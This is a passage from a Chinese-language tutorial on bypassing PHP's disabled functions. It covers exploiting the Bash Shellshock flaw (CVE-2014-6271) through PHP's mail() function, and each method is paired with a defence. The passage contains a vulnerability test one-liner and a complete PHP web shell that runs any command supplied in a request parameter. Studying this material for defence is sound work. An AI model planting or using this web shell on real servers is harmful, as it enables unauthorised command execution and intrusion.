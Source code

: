 **利用效果：**

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkkiaO7vtE0KHQk5knN2icxJX1ibwagINHibNbyZq9uLgjS4XfRibreBQnsHYA/640?wx_fmt=png)

**防御手段：**

1.  这个方法需要上传 so 文件和 php 脚本，如果正确配置 open_basedir，限制目录的读写、执行权限可以防范这种攻击。
    

**四. 利用 Bash 破壳（CVE-2014-6271）漏洞**

**环境要求：**

Linux 中 Bash 版本小于等于 4.3，且存在破壳漏洞

可以执行 “env x='() { :;}; echo vulnerable' bash -c "echo this is a test"” 来测试是否存在破壳漏洞，如果存在会输出

vulnerable

this is a test

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkk4r3G80Ao1qjuFC1bXpmPicIU5t9QmV9iaiaBBLice5iapA1FnEt9uG5GJaA/640?wx_fmt=png)

**利用原理：**

存在 Bash 破壳（CVE-2014-6271）的 Linux 服务器向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，可利用此漏洞改变或绕过环境限制。mail 函数的第五个参数会被交给 popen() 执行, 如果系统默认 sh 是 bash，popen() 会派生 bash 进程, 进而可利用破壳漏洞执行命令。

上传 shellshock.php：

```
<?php  
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283  
$tmp = tempnam(".","data");  
putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");  
mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail  
$output = @file_get_contents($tmp);  
@unlink($tmp);  
if($output != "") return $output;  
else return "No output, or not vuln.";  
}  
echo shellshock($_REQUEST["cmd"]);  
?>
```

**利用效果：**

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkkEAGtje7xO6sDSmsbcmLJVtP1jeLtxJwsWb3Ia01uIvs6c8Q732RclQ/640?wx_fmt=png)

**防御手段：**

Bash 破壳漏洞在 2014 年爆出后影响了大部分 Linux 系统。将 Linux 的 bash 升级到最新版本可防御这种攻击。

1.  利用 imap_open 函数的特性绕过（CVE-2018-19518）。
    

**环境要求：**

1.  安装了 PHP 的 imap 扩展。
    
